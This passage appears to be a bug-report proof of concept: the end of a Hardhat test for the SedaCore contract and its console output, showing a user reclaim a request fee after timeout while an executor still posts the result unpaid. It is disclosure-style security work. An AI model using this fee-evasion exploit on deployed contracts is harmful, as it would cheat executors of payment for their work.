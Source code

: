 ```typescript
    
    try {
      const postResultTx = await sedaCore.connect(executor).postResult(result, 0, proof);
      await postResultTx.wait();
      console.log("Result posted successfully!");
      
      // Verify result is available
      const storedResult = await sedaCore.getResult(requestId);
      console.log(`VERIFICATION: Result was stored successfully!`);
      
      // Verify executor got paid nothing
      const executorFinalBalance = await ethers.provider.getBalance(executor.address);
      console.log(`FINAL STATE: Executor's final balance: ${ethers.formatEther(executorFinalBalance)} ETH`);
      
      // Calculate difference, accounting for gas costs
      const balanceDiff = executorFinalBalance - executorInitialBalance;
      console.log(`VERIFICATION: Executor's balance change: ${ethers.formatEther(balanceDiff)} ETH`);
      
      // The executor's balance should be lower due to gas costs but not higher
      expect(executorFinalBalance).to.be.lt(executorInitialBalance);
      
      console.log("EXPLOIT CONFIRMED: Executor received no payment for their valid result");
      console.log("SUMMARY: User was able to withdraw their fee AND still get the result");
    } catch (error) {
      console.log("Error during result posting:", error);
    }
  });
});
```

Execution result:
```bash
 npx hardhat test test/FeeEvasion.test.ts


  SedaCore Fee Evasion Exploit
Starting test...
TEST SETUP: Contracts deployed and accounts configured
TEST SETUP: Using total fee of 1.6 ETH
INITIAL STATE: Executor's initial balance: 10000.0 ETH
Base request: {
  execProgramId: '0x39bef1777deb3dfb14f64b9f81ced092c501fee72f90e93d03bb95ee89df9837',
  execInputs: '0x39bef1777deb3dfb14f64b9f81ced092c501fee72f90e93d03bb95ee89df9837',
  execGasLimit: 1000000n,
  tallyProgramId: '0x39bef1777deb3dfb14f64b9f81ced092c501fee72f90e93d03bb95ee89df9837',
  tallyInputs: '0x39bef1777deb3dfb14f64b9f81ced092c501fee72f90e93d03bb95ee89df9837',
  tallyGasLimit: 1000000n,
  replicationFactor: 1,
  consensusFilter: '0x01',
  gasPrice: 10000000000n,
  memo: '0x726571756573742d31'
}
STEP 1: User posting a data request with fee
Request posted
Generated requestId: 0xba01fa76a795b6b45d72192c412e2d3ce0e3174d5887b12a47d768956c5194d5
VERIFICATION: Request is pending: true
STATE CHECK: Contract balance after request: 1.6 ETH
Current timeout period: 86400 seconds
STEP 2: Simulating timeout by advancing time
STEP 3: User withdrawing fees after timeout
STATE CHECK: User balance before withdrawal: 9998.39921385252966938 ETH
STATE CHECK: User balance after withdrawal: 9999.999116747175178761 ETH
```